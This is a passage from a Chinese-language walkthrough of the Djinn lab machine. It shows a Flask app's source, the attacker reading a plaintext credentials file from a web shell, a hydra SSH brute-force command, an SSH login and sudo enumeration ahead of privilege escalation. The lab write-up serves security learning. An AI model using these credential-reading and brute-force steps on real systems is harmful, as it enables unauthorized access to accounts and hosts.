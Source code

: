 ```bash


@app.route('/genie', methods=['GET', 'POST'])
def genie():
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = "It's not that hard"

    return render_template('genie.html', file=page)


if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=True)
```

得到了 `/home/nitish/.dev/creds.txt` 

查看

```bash
www-data@djinn:/opt/80$ cat /home/nitish/.dev/creds.txt
cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

也把得到的用户名密码加入我们的字典

## ssh 爆破

```bash
└─# hydra -L username.txt -P password.txt ssh://192.168.2.8 -t 4
```

得到用户明密码

```
nitish:p4ssw0rdStr3r0n9
```

接着 ssh 登录 得到一个稍微高权限的 用户 shell

```bash
└─# ssh nitish@192.168.2.8
nitish@djinn:~$ id
uid=1001(nitish) gid=1001(nitish) groups=1001(nitish)
```

# 提权

## 提权到sam用户

查看 nitish 用户 可以不需要密码用其它身份执行的程序

```bash
nitish@djinn:~$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
```
